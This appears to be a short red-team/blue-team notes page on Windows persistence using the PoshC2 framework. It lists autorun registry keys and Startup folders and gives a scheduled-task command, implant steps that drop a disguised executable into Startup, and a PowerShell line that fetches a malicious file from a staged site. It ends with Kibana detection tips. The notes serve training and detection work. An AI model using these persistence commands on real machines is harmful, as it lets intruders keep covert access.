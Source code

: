# [Redundant access](https://attack.mitre.org/techniques/T1133/)

## Folder Locations: 
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
* C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
* C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## Exploit syntax:
* SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

* Reference [Job Scheduling](/Poshc2/instructions/Job_Scheduling.md) for information on redundant access within scheduled tasks

* Can upload a file directly from implant:

```powershell

1. upload-file
2. ../../../../tmp/example.txt 
3. C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\TotallyLegit.exe

```

* Also possible to utilize a staged website to pull the malicious file from[untested]:

```powershell

sharpps "invoke-webrequest -uri '<Staged site>' -outfile '<Location of persistence>'"  

```

## Detection Technique:
* (Kibana): Use a string search to detect schtasks operating within the network. Then add process.command_line to the results column. This will allow for quick separation of uncommon scheduled tasks.
    * process.args: \*Roaming\*
    * process.args: \*ProgramData\*

* Investigate downloads from suspicious websites, particularly exe files

* Investigate file creation in the default startup file locations
